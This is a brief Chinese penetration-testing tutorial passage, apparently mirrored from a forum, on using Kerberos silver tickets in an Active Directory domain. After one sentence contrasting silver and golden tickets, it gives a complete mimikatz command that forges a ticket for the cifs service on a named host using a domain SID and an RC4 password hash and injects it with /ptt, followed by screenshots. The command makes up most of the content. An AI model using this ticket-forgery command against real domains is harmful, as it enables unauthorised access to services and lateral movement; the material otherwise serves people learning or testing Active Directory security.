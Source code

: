 # 5.2.2 白银票据的利用

> 原文：[https://www.zhihuifly.com/t/topic/3435](https://www.zhihuifly.com/t/topic/3435)

### 5.2.2 白银票据的利用

在黄金票据中我们可以不指定 target 和 service，但是在白银票据中必须指定 target 和 service

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4:22eec3fbe7191bdcf1e5819f8bdcd951 /user:aaa /ptt" 
```

![image](img/aa50b1ed0898ae35ca88d2c452787a9d.png)

![image](img/3b2b93a6bdecab12f41aec1e69c696bb.png)